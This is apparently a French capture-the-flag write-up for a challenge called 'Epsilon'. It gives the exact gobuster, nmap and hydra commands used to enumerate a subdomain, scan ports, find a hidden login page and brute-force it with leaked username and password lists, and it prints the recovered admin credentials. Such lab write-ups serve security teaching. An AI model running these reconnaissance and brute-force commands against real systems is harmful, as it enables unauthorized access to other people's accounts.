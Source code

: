 # Epsilon

1) Chercher les sous domaines avec gobuster

```bash
gobuster dns -d rs.io -w hacker-toolkit/wordlists/common_subdomains.txt
```

2) Trouver le sous domaine `epsilon.rs.io`

3) Scan de port avec nmap sur le sous domaine

```bash
nmap -sV -p- epsilon.rs.io
```

4) On trouve le port 6723 ouvert

5) On ouvre un navigateur sur le port 6723 et on trouve un site web

6) On exécute un gobuster sur le site web

```bash
gobuster dir -u http://epsilon.rs.io:6723 -w hacker-toolkit/wordlists/common_urls.txt
```

7) On trouve un chemin `/support_login` contenant un formulaire de login avec un champ `username` et `password`

8) On lance une attaque avec hydra

```bash
hydra -L wordlists/leaked_users.txt -P wordlists/leaked_passwords.txt 192.168.30.6 -s 6723 http-form-post "/support_login:username=^USER^&password=^PASS^:Invalid credentials"
```

9) On trouve le couple `administrator:jayden12345`

10) On se connecte sur le site avec le couple `administrator:jayden12345`

11) On trouve le flag

### Flag = ${FLAG_BruteForced}